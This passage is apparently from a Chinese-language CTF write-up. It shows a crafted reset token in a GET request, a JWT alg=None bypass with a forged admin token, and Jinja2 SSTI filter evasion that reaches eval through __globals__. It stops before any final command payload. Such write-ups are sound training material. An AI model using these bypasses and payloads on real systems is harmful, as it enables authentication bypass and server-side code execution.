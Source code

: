 ```php
	$r = mysql_fetch_assoc($r);
	$r = $r['num'];
	if($r>0){
		echo $flag;
	}else{
		echo "失败了呀";
	}
}
```

按照代码构造`token`，得到flag

```
GET /forget/submit.php?emailAddress=admin@simplexue.com&token=0000000000
```

## py一波吧-ssti+jwt_1

`JWT alg=None 签名bypass攻击` -> `SSTI`，强行把两道题拼成一道题，没有第一步不能进入SSTI。

工具地址：https://github.com/ticarpi/jwt_tool，建议手动操作。

随便输入一个用户名密码，将cookie里面的token提取出来，解base64可得

```
{"alg":"HS256","typ":"JWT"}.{"username":"admin1"}.signature
```

因为服务端没有强制指定签名算法，修改`alg`为`None`，并将`username`数据设置为`admin`，`base64.urlsafe_b64encode()`编码回去得到

```
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VybmFtZSI6ImFkbWluIn0.
```

把token换上去，就可以进入SSTI流程了。

SSTI过滤了：单引号、os、system、[]

Jinja2对与不存在的对象有一个特殊的定义**Undefined**类，`<class 'jinja2.runtime.Undefined'>`

**jinja2/runtime.py**

```python
@implements_to_string
class Undefined(object):
    ...
```

通过构造`title={{vvv.__class__.__init__.__globals__ }}`就可以搞事情了，发现有个`eval`，就是它了。

```python
{'new_context': <function new_context at 0x7fc79bb4faa0>, 'chain': <type 'itertools.chain'>, '_context_function_types': (<type 'function'>, <type 'instancemethod'>), 'resolve_or_missing': <function resolve_or_missing at 0x7fc79bb4fcf8>, 'Namespace': <class 'jinja2.utils.Namespace'>, 'ContextMeta': <class 'jinja2.runtime.ContextMeta'>, 'evalcontextfunction': <function evalcontextfunction at 0x7fc79bd919b0>, 'escape': <built-in function escape>, 'LoopContext': <class 'jinja2.runtime.LoopContext'>, '_first_iteration': <object object at 0x7fc79f5b2190>, 'TemplateNotFound': <class 'jinja2.exceptions.TemplateNotFound'>,···'eval': <built-in function eval>
```
